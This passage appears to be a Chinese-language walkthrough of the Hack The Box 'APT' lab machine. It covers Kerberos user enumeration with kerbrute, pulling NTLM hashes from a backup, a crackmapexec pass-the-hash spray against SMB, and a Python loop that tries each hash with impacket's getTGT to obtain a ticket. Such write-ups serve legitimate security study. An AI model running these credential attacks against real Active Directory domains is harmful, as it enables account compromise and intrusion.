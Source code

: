 2. kerbrute

`./kerbrute_linux_386 userenum -d htb.local --dc htb.local ~/Hackthebox-APT/user_list`

## 找到与存活 user 密码匹配的 hash

**现在获取到的有三个用户名和2000个密码hash**

**目前需要爆破一下用户名和哪个密码hash是对应上的**

首先就查看 backup user 中对应的 hash 能否验证成功

![](https://i.328888.xyz/2023/04/02/iH3sCa.png)

验证失败

## 密码重用攻击

backup 文件中的密码对应不上用户名，说明如今的密码已经修改了

**有没有可能，在重新设置密码的时候把其他账号之前用过的密码，现在又用到了自己的新账号上呢？**

**爆破一下有没有与三个用户名相匹配的密码 hash 吧**

将密码 hash 写入文件
```shell
cat user_hash_raw | grep ':::' | awk -F ':' '{print $3":"$4}' > hash_list
```

### crackmapexec

`crackmapexec smb htb.local -u user_3 -H hash_list`: 但是这条命令会多次连接 smb，导致 ip 被封禁，需要寻找其他办法

>After about 60 hashes, the box stops responding entirely. It turns out it has [wail2ban](https://github.com/glasnt/wail2ban) installed, preventing this kind of bruteforce. I had to reset the box to get it back.

### getTGT (impacket)

**如果成功，则取回票据**

通过这个工具，速度更慢一些去查找有用的密码 hash

```python
import os

users = "henry.vinson"

with open("hash_list","r") as hashes:
	for hash in hashes:
		hash = hash.split()
		hash = hash[0]
		print(f"check -----> {hash}")
		os.system(f"python3 /tools/impacket/examples/getTGT.py htb.local/henry.vinson -hashes '{hash}'")
		if os.path.exists("henry.vinson.ccache"):
			break

```
